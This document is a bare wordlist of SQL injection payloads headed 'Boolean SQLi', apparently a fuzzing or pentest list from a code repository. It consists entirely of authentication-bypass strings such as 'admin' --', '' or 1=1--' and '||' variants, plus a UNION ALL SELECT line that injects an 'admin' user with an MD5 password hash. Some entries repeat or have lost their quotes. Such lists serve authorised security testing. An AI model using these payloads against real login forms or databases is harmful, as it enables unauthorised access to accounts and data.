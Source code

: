 # Boolean SQLi

admin' --
admin' #
admin'/*
' or 1=1--
' or '1'='1 
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
 or -
 or  
 or &
 or ^
 or *
or true--
 or true--
' or true--
) or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
 or x=x
) or (x)=(x
)) or ((x))=((x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
 '|| '1'='1
'-'
' '
'&'
'^'
'*'
' || ''-'
' || '' '
' || ''&'
' || ''^'
' || ''*'
- 
&
^
*
 || -
 ||  
 || &
 || ^
 || *
|| true--
 || true--
' || true--
) || true--
') || true--
' || 'x'='x
') || ('x')=('x
')) || (('x'))=(('x
 || x=x
) || (x)=(x
)) || ((x))=((x
|| 1=1
|| 1=1--
|| 1=1#
|| 1=1/*
admin' --
admin' #
admin'/*
admin' || '1'='1
admin' || '1'='1'--
admin' || '1'='1'#
admin' || '1'='1'/*
admin'|| 1=1 || ''='
admin' || 1=1
admin' || 1=1--
admin' || 1=1#
admin' || 1=1/*
admin') || ('1'='1
admin') || ('1'='1'--
admin') || ('1'='1'#
admin') || ('1'='1'/*
admin') || '1'='1
admin') || '1'='1'--
admin') || '1'='1'#
admin') || '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin --
a
admin || 1=1
admin || 1=1--
admin || 1=1#
admin || 1=1/*
admin|| 1=1 || =
admin || 1=1
admin || 1=1--
admin || 1=1#
admin || 1=1/*
admin) || (1=1
admin) || (1=1--
admin) || (1=1#
admin) || (1=1/*
admin) || 1=1
admin) || 1=1--
admin) || 1=1#
admin) || 1=1/*
1234  AND 1=0 UNION ALL SELECT admin, 81dc9bdb52d04dc20036dbd8313ed055
admin #
admin/*
admin or 1=1
admin or 1=1--
admin or 1=1#
admin or 1=1/*
adminor 1=1 or =
admin or 1=1
admin or 1=1--
admin or 1=1#
admin or 1=1/*
admin) or (1=1
admin) or (1=1--
admin) or (1=1#
admin) or (1=1/*
admin) or 1=1
admin) or 1=1--
admin) or 1=1#
admin) or 1=1/*
'or(1)/*
or(1)/*
'or(1)--